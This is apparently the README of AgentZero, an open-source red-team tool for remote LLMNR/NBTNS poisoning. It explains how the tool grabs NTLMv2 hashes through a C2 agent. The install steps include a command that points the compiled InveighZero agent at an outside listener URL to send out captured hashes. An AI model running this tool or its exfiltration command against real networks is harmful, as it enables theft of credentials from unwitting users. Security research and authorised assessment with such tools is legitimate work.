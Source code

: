 <p align="center">

![GitHub Repo stars](https://img.shields.io/github/stars/HuskyHacks/AgentZero?style=social)
![GitHub last commit](https://img.shields.io/github/last-commit/HuskyHacks/AgentZero)
![GitHub](https://img.shields.io/github/license/HuskyHacks/AgentZero)
![GitHub language count](https://img.shields.io/github/languages/count/HuskyHacks/AgentZero)
![GitHub top language](https://img.shields.io/github/languages/top/huskyHacks/AgentZero)

# AgentZero
A client-server tool for remote LLMNR/NBTNS poisoning by Matt Kiely (HuskyHacks) and Aaron Hobdy.

## WARNING
This tool does not yet provide any encryption of data on the wire. **Do not use this to transmit captured authentication material outside of a private, internal network.** The dev team is not liable if you use this in a production environment and leak plain text authentication data out to the Internet.

This tool is also not currently built with security best practices in mind. There is no authentication mechanism for the main web server yet. Keep this in mind before hosting this tool on your network. **Never host this on an internet facing server.**

### Description
Inveigh is the work of Kevin Robertson and is one of the best tools available for poisoning LLMNR/NBTNS in a target network. Traditionally, tools like Responder.py have been used to respond to LLMNR/NBTNS and force the client to attempt an authentication to the responder server, which allows an attacker to capture the NTLMv2 hash of the client. However, this method has one big shortfall: the attacker must be present on the network where Responder is running, which is not always feasible. Inveigh and InveighZero have the interesting capability of being able to be run via PowerShell or as a reflective .NET assembly, respectively. This allows an operator to gain a foothold with a C2 agent, load Inveigh into their C2 agent's session, and use it to respond to LLMNR on the target network.

Recently, we found that we were running Inveigh as a .NET assembly through a C2 agent in order to recover NTLMv2 hashes remotely. This works great on platforms like Covenant and Cobalt Strike! Running Inveigh through a C2 agent means that an operator does not have to be present on the subnet where they want to recover NTLMv2 hashes. We wanted to make this process into a stand-alone client/server tool and hopefully define it as its own method of extracting authentication information. Thus, **AgentZero** was born.

**AgentZero** uses a modified version of the InveighZero source code to create an agent binary that can exfiltrate capture authentication messages from an internal network out to an operator-controlled server. This allows for remote LLMNR poisoning that can recover cryptographic authentication messages.  

### Quick Install Guide

UNDER CONSTRUCTION

1. `sudo git clone https://github.com/HuskyHacks/AgentZero.git`
2. `cd AgentZero`
3. `sudo docker-compose up --build`
4. Compile the InveighZero-master binary that is packeged in the code.
5. Drop this binary to disk or run as an assembly with the `-EXFILURL` argument: `InveighZero.exe -EXFILRUL http://[ip]:1776/listener`
6. Wait for (or force) an LLMNR/NBTNS event
7. Captured hashes are stored in the dockerized DB.

### Roadmap
v.01
- [x] Python socket server that accepts input and writes to log file
- [x] InveighZero exe that sends captured NTLMv2 hash to server
- [x] Flask App
- [x] Stores in database

v.02
- [ ] Encoding/encrypting for exfil
  - [x] Base64 encoding
  - [ ] Asymmetrical Key exchange at compilation/agent check in
- [ ] Simple front-end login, set password on server at docker build
    - [ ] Server handles sessions, login actually functions
- [x] Dynamically compile InveighZero with IP address and port
  - [x] Compilation function
  - [x] Controlled from UI

future state
- [ ] Cool art for github page
- [ ] Multi-threaded, multi-agent handling
- [ ] Front end web client for multi-agent config/administration
- [ ] Dynamic generation for listener URL
- [ ] "Dashboard" for default view with DAG representation of agents 
- [ ] Shellcode gen for agent
- [ ] Basic command execution
- [ ] Malleable C2

## Acknowledgements
The dev team would like to thank Kevin Robertson for making an incredible program! Thanks also goes out to the devs of Covenant, Cobalt Strike, Empire, and all other C2s that we love.

## Disclaimer
There is no way to make an offensive security relevant research tool and release it open source without the possibility of it falling into the wrong hands. **This tool is only to be used for legal, ethical purposes including, but not limited to, research, security assessment, education. The dev team is not responsible for the misuse of this tool by anyone if used for illegal/unethical purposes.**

The graphic work in this repository is fan art. Likeness to real-world copyrighted material should not be inferred. No animals were harmed in the making of this code base (although Cosmo keeps climbing on my keyboard and I have to put him over on the couch, which I'm sure must feel like torture to him).
